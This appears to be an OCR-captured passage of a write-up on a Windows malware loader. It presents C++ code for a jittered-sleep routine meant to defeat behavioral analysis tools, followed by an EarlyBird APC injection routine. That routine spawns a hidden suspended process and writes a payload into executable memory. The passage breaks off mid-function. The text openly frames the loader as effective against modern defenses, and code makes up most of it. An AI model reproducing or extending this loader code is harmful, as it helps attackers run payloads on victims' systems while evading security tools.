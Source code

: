 ### Jittered Sleep for Evasion

The loader implements smart timing evasion through jittered sleep:

```cpp
    // Jittered sleep for evasion
    void JitteredSleep(DWORD minMs, DWORD maxMs) {
        std::uniform_int_distribution<DWORD> dist(minMs, maxMs);
        DWORD sleepTime = dist(rng);
        Sleep(sleepTime);
    }
```

This is a simple but effective evasion technique. Instead of predictable delays that behavioral analysis tools can detect, we use random intervals within a specified range. This makes the loader's timing patterns look more like legitimate software that might pause for user interaction or system resources.

The uniform distribution ensures the delays are truly random within the specified bounds, breaking up any timing signatures that security tools might look for.



### EarlyBird Injection Implementation

The EarlyBird injection is the core technique that makes this loader effective against modern defenses:

```cpp
    // Early Bird APC Queue Injection
    bool EarlyBirdInjection(const std::wstring& targetPath) {
        LOG("Starting EarlyBird injection on " + std::string(targetPath.begin(), targetPath.end()));
        
        STARTUPINFOW si = { sizeof(si) };
        PROCESS_INFORMATION pi = {};
        si.dwFlags = STARTF_USESHOWWINDOW;
        si.wShowWindow = SW_HIDE;
        
        if (!CreateProcessW(targetPath.c_str(), NULL, NULL, NULL, FALSE,
            CREATE_SUSPENDED, NULL, NULL, &si, &pi)) {
            LOG_ERROR("Failed to create suspended process");
            return false;
        }
        
        LOG("Created suspended process (PID: " + std::to_string(pi.dwProcessId) + ")");

        LPVOID pRemoteMemory = VirtualAllocEx(pi.hProcess, NULL, payload.size(),
            MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        
        if (!pRemoteMemory) {
            LOG_ERROR("Failed to allocate memory");
            TerminateProcess(pi.hProcess, 0);
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
            return false;
        }
        
        SIZE_T bytesWritten;
        if (!WriteProcessMemory(pi.hProcess, pRemoteMemory, payload.data(), payload.size(), &bytesWritten)) {
            LOG_ERROR("Failed to write memory");
            VirtualFreeEx(pi.hProcess, pRemoteMemory, 0, MEM_RELEASE);
            TerminateProcess(pi.hProcess, 0);
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
            return false;
```